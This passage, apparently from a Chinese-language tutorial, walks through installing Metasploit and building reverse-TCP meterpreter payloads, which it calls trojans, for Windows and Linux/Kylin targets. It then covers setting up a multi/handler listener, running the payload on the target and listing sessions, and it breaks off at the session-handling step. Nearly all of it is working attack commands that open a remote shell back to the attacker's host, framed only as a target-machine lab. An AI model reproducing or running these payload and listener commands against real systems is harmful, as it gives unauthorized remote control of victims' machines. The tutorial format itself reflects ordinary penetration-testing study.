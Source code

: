 <pre><code class="language-bash"># 更新系统
sudo apt update &amp;&amp; sudo apt upgrade -y
#（部分麒麟版本基于 RPM，使用 yum/dnf）

# 安装依赖
sudo apt install git curl build-essential libssl-dev libreadline-dev zlib1g-dev postgresql postgresql-contrib -y

# 安装 Metasploit（官方安装脚本）
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfinstall &gt; msfinstall
chmod +x msfinstall
sudo ./msfinstall

# 启动 MSF
msfconsole
</code></pre>
<hr>
<h2>3. 生成木马（针对不同平台）</h2>
<h3>3.1 Windows 木马</h3>
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o win_payload.exe
</code></pre>
<h3>3.2 Linux 木马（包括 麒麟靶机）</h3>
<pre><code class="language-bash">msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f elf -o kylin_payload.elf
</code></pre>
<blockquote>
<p>如果靶机是 ARM 或 LoongArch，需要用 <code inline="">linux/armle/meterpreter_reverse_tcp</code> 或 <code inline="">linux/loongarch64/meterpreter_reverse_tcp</code></p>
</blockquote>
<hr>
<h2>4. 攻击机终端（监听）</h2>
<pre><code class="language-bash">msfconsole

use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp    # 如果是 Windows 就改成对应 payload
set LHOST 192.168.1.100
set LPORT 5555
run
</code></pre>
<hr>
<h2>5. 靶机（Windows / 麒麟）执行木马</h2>
<h3>Linux/麒麟靶机</h3>
<pre><code class="language-bash">chmod +x kylin_payload.elf
./kylin_payload.elf
</code></pre>
<h3>Windows 靶机</h3>
<pre><code class="language-powershell">.\win_payload.exe
</code></pre>
<hr>
<h2>6. 攻击机终端（会话获取与后渗透）</h2>
<p>会话建立后：</p>
<pre><code class="language-bash">sessions -l          # 列出会话
sessions -i 1        # 进入会话
